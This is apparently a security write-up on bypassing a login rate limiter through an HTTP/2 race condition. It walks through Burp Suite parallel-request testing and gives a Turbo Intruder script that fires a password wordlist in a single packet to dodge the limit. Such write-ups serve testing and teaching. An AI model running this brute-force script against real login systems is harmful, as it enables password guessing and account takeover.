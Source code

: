 Traditional rate limiting often checks the request count, processes the request, then increments the counter. When multiple requests arrive simultaneously via HTTP/2, they may all read the same counter value before any of them increment it—effectively bypassing the limit.

## Discovery Process

### Initial Testing

I began testing the login functionality using standard brute-force techniques:

1. Captured a valid login request using Burp Suite's Proxy
2. Sent the request to Intruder for automated testing
3. Configured a password list and started the attack

**Result**: After exactly 10 requests, the server responded with `HTTP 429 Too Many Requests`. The rate limiter was working as intended—or so it seemed.

### Identifying the Race Condition

Suspecting a potential race condition, I decided to test how the application handled concurrent requests:

1. Sent the login request to Burp Repeater
2. Created a group of tabs in Repeater
3. Duplicated the request 19 times for a total of 20 parallel requests
4. Executed all requests simultaneously using the "Send group (parallel)" option

**Result**: All 20 requests completed successfully without any 429 responses. This confirmed the rate limiter could be bypassed through concurrent requests.

### Exploitation with Turbo Intruder

To weaponize this finding, I used Burp Suite's Turbo Intruder extension with the `race-single-packet-attack.py` template:

**Step 1: Prepare the Request**
```plaintext
1. Send captured login request to Turbo Intruder
2. Replace the password field with %s placeholder
3. Prepare a password wordlist
```

**Step 2: Configure the Attack**

I modified the Turbo Intruder script to leverage HTTP/2's single-packet attack capability:

```python
def queueRequests(target, wordlists):
    # Use HTTP/2 with single connection for single-packet attack
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=1,
        engine=Engine.BURP2
    )
    
    # Load passwords from clipboard
    passwords = wordlists.clipboard
    
    # Queue all requests with gate='1'
    # This holds requests until openGate() is called
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # Release all requests simultaneously
    engine.openGate('1')

def handleResponse(req, interesting):
    table.add(req)
```